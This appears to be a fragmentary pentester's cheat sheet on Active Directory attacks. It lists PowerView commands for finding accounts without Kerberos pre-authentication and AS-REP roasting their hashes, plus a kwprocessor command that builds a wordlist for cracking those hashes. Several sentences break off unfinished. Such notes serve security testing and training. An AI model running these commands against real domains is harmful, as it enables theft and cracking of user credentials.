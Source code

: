 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound and basic net enumeration try looking for the following:

Next try running

Powerup

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

Determine if kerberos pre-auth is not set

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

